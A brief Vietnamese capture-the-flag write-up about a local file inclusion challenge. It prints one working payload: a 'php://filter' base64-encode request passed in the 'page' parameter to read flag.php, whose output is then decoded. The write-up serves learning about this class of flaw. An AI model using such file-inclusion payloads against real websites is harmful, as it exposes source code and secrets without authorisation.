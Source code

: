 bài này là LFI á:<


vào giao diện sẽ như này ![Alt text](image.png)

thì có 1 routes FLAG như kia mình có ấn qua thử nhưng không có gì 
vìa thấy url có parameter và page nên mình đoán nó là file includetion

thử với param 

                                        ?page=php://filter/convert.base64-encode/resource=pages/flag.php

![Alt text](image-1.png)
Lấy chuỗi ra decode base64 thì được flag:<